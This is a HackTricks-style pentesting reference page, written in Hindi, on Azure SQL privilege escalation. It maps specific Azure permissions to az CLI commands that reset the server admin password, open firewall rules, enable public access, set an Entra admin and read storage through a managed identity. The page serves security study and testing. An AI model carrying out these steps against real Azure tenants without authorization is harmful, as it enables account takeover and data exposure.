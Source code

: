 # Az - SQL Database Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Privesc

SQL Database के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/write`

इन अनुमतियों के साथ, एक उपयोगकर्ता Azure SQL सर्वरों को अपडेट या बनाकर विशेषाधिकार वृद्धि कर सकता है और महत्वपूर्ण कॉन्फ़िगरेशन, जिसमें प्रशासनिक क्रेडेंशियल शामिल हैं, को संशोधित कर सकता है। यह अनुमति उपयोगकर्ता को सर्वर की संपत्तियों को अपडेट करने की अनुमति देती है, जिसमें SQL सर्वर प्रशासनिक पासवर्ड शामिल है, जिससे अनधिकृत पहुंच या सर्वर पर नियंत्रण प्राप्त करना संभव होता है। वे नए सर्वर भी बना सकते हैं, जो संभावित रूप से दुर्भावनापूर्ण उद्देश्यों के लिए छायादार बुनियादी ढाँचा पेश कर सकते हैं। यह विशेष रूप से महत्वपूर्ण हो जाता है जब "Microsoft Entra Authentication Only" बंद होता है, क्योंकि वे SQL-आधारित प्रमाणीकरण का लाभ उठाकर बिना किसी प्रतिबंध के पहुंच प्राप्त कर सकते हैं।
```bash
# Change the server password
az sql server update \
--name <server_name> \
--resource-group <resource_group_name> \
--admin-password <new_password>

# Create a new server
az sql server create \
--name <new_server_name> \
--resource-group <resource_group_name> \
--location <location> \
--admin-user <admin_username> \
--admin-password <admin_passwor d>
```
इसके अलावा, यदि आप किसी गैर-निजी एंडपॉइंट से एक्सेस करना चाहते हैं तो सार्वजनिक एक्सेस सक्षम होना आवश्यक है, इसे सक्षम करने के लिए:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--enable-public-network true
```
इसके अलावा, अनुमतियों के साथ आप असाइन पहचान सक्षम कर सकते हैं, जो सर्वर से जुड़े प्रबंधित पहचान के साथ कार्य करता है। उदाहरण के लिए, यहां एक प्रबंधित पहचान है जो Azure Storage तक पहुंच सकता है:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--assign_identity
```

```sql 
CREATE EXTERNAL DATA SOURCE ManagedIdentity
WITH (
TYPE = BLOB_STORAGE,
LOCATION = 'https://<storage-account>.blob.core.windows.net/<container>',
CREDENTIAL = ManagedIdentityCredential
);
GO

SELECT *
FROM OPENROWSET(
BULK 'message.txt',
DATA_SOURCE = 'ManagedIdentity',
SINGLE_CLOB
) AS DataFile;
GO
```
### `Microsoft.Sql/servers/firewallRules/write`

एक हमलावर Azure SQL सर्वरों पर फ़ायरवॉल नियमों में हेरफेर कर सकता है ताकि अनधिकृत पहुँच की अनुमति मिल सके। इसका उपयोग सर्वर को विशिष्ट IP पते या पूरे IP रेंज, जिसमें सार्वजनिक IP शामिल हैं, के लिए खोलने के लिए किया जा सकता है, जिससे दुर्भावनापूर्ण अभिनेताओं के लिए पहुँच सक्षम होती है। यह पोस्ट-एक्सप्लॉइटेशन गतिविधि मौजूदा नेटवर्क सुरक्षा नियंत्रणों को बायपास करने, स्थिरता स्थापित करने, या संवेदनशील संसाधनों को उजागर करके वातावरण के भीतर पार्श्व आंदोलन को सुविधाजनक बनाने के लिए उपयोग की जा सकती है।
```bash
# Create Firewall Rule
az sql server firewall-rule create \
--name <new-firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <start-ip-address> \
--end-ip-address <end-ip-address>

# Update Firewall Rule
az sql server firewall-rule update \
--name <firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <new-start-ip-address> \
--end-ip-address <new-end-ip-address>
```
इसके अलावा, `Microsoft.Sql/servers/outboundFirewallRules/delete` अनुमति आपको एक फ़ायरवॉल नियम को हटाने की अनुमति देती है।  
नोट: सार्वजनिक पहुंच सक्षम होना आवश्यक है

### `Microsoft.Sql/servers/ipv6FirewallRules/write`

इस अनुमति के साथ, आप Azure SQL Server पर IPv6 फ़ायरवॉल नियम बना, संशोधित या हटा सकते हैं। यह एक हमलावर या अधिकृत उपयोगकर्ता को मौजूदा नेटवर्क सुरक्षा कॉन्फ़िगरेशन को बायपास करने और सर्वर तक अनधिकृत पहुंच प्राप्त करने में सक्षम बना सकता है। किसी भी IPv6 पते से ट्रैफ़िक की अनुमति देने वाला एक नियम जोड़कर, हमलावर सर्वर को बाहरी पहुंच के लिए खोल सकता है।
```bash
az sql server firewall-rule create \
--server <server_name> \
--resource-group <resource_group_name> \
--name <rule_name> \
--start-ip-address <start_ipv6_address> \
--end-ip-address <end_ipv6_address>
```
अतिरिक्त रूप से, `Microsoft.Sql/servers/ipv6FirewallRules/delete` अनुमति आपको एक फ़ायरवॉल नियम को हटाने की अनुमति देती है।  
नोट: सार्वजनिक पहुंच सक्षम होना आवश्यक है

### `Microsoft.Sql/servers/administrators/write` && `Microsoft.Sql/servers/administrators/read`

इन अनुमतियों के साथ आप Azure SQL Server वातावरण में SQL डेटाबेस तक पहुंचकर महत्वपूर्ण जानकारी प्राप्त कर सकते हैं। नीचे दिए गए कमांड का उपयोग करके, एक हमलावर या अधिकृत उपयोगकर्ता खुद को या किसी अन्य खाते को Azure AD प्रशासक के रूप में सेट कर सकता है। यदि "Microsoft Entra Authentication Only" सक्षम है, तो आप सर्वर और इसके उदाहरणों तक पहुंच सकते हैं। यहाँ SQL सर्वर के लिए Azure AD प्रशासक सेट करने का कमांड है:
```bash
az sql server ad-admin create \
--server <server_name> \
--resource-group <resource_group_name> \
--display-name <admin_display_name> \
--object-id <azure_subscribtion_id>
```
### `Microsoft.Sql/servers/azureADOnlyAuthentications/write` && `Microsoft.Sql/servers/azureADOnlyAuthentications/read`

इन अनुमतियों के साथ, आप Azure SQL Server पर "Microsoft Entra Authentication Only" को कॉन्फ़िगर और लागू कर सकते हैं, जो कुछ परिदृश्यों में विशेषाधिकार वृद्धि को सुविधाजनक बना सकता है। एक हमलावर या एक अधिकृत उपयोगकर्ता जिनके पास ये अनुमतियाँ हैं, Azure AD-केवल प्रमाणीकरण को सक्षम या अक्षम कर सकता है।
```bash
#Enable
az sql server azure-ad-only-auth enable \
--server <server_name> \
--resource-group <resource_group_name>

#Disable
az sql server azure-ad-only-auth disable \
--server <server_name> \
--resource-group <resource_group_name>
```
{{#include ../../../banners/hacktricks-training.md}}
